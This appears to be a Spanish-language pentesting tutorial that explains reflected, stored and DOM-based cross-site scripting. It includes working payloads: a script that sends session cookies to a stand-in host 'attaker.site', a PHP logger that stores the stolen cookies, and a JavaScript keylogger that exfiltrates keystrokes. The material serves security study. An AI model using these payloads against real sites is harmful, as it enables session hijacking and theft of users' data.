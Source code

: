 *XSS* ó *Cross Site Scripting*, es una vulnearabilidad que permite al atacante controlar parte del contenido de una aplicación web, ejecutando código malicioso en la página web de un usuario sin su conocimiento o consentimiento De forma que pueda:

- Modificar el contenido del sitio en tiempo real.
- Inyectarcontenido malicioso.
- Robar cookies de sesión.
- Hacer acciones sobre la web como si fuera un usuario legítimo.
- ...

#### Actores

- El **sitio web** vulnerable.
- Los **usuarios** de la página.
- El **pentester**.

Normalmente, esta vulnerabilidad se debe a una mala sanitización de los inputs del usuario (peticiones, cookies, formularios...). La única protección para este tipo de ataques es **nunca confiar en los inputs de un usuario**.

Hay tres tipos *reflejadas* (*reflected*), *persistentes* (*persistent*) ó *DOM based*.

### Reflected XSS

Son aquellos en los que el payload viaja en la **petición** que manda **el navegador de la víctima** al servidor. De forma que se debe mandar un enlace (p.e. mediante *phishing*) a la víctima que en casao de ser abierto pondrá en marcha el ataque.

Se llama *reflejado* porque la víctima ejecuta el payload, pero el output se ve reflejado en la máquina del atacante.

Algunos navegadores filtran este tipo de ataques, impidiendo que se lleven a cabo.

Algunas funciones útiles son:

- **fetch**, permite hacer una petición a una dirección (a tu máquina de atacante ó a un ***webhook***)
- **XMLHttpRequest**, permite administrar peticiones http:

```js
var request = new XMLHttpRequest();
request.open("<url>");
request.send();
```


### Stored XSS

Ocurre cuando se envía el payload al servidor y se almacena. Cuando se accede al recurso se pone en marcha el ataque. Se llama *persistente* ó *almacenado* porque el payload se ejecuta cada vez que se accede al recurso.

Los lugares donde suele encontrarse este tipo de XSS son los formularios que el usuario envía y se ven luego reflejados en la página (posts de foros, comentarios, parámetros del perfil, ...).

### DOM-Based

Este tipo de XSS se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

- #### Robo de cookies mediante XSS

Mediante un ataque de XSS es posible robar una cookie que en la mayoría de los casos es sinónimo de secuestrar la sesión de un usuario.

Como ya sabemos, javascript puede acceder a las cookies siempre y cuando no tengan activada la flag HttpOnly, siendo posible listarlas con un payload como:

```html
<script>alert(document.cookie)</script>
```

Ó mandarlas a un sitio malicioso:

```html
<script>
var im = new Image();
im.src = "http://attaker.site/log.php?q="+document.cookie;
</script>
```

Tratándola como  una imagen, el navegador no sabrá si se trata de una imagen realmente, guardándola en dicha ruta. Y mediante *log.php* lograremos que sea el propio sitio de destino el que la guarde como archivo de texto:

```php
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```

- #### Keylogger

Se hace utilizando el método **onkeypress**:

```js
var k = "";
document.onkeypress = function(e){
	e = e || window.event; //Opcional
	k+=e.key;
	var i = new Image();
	i.src = "<url>" + k;
};
```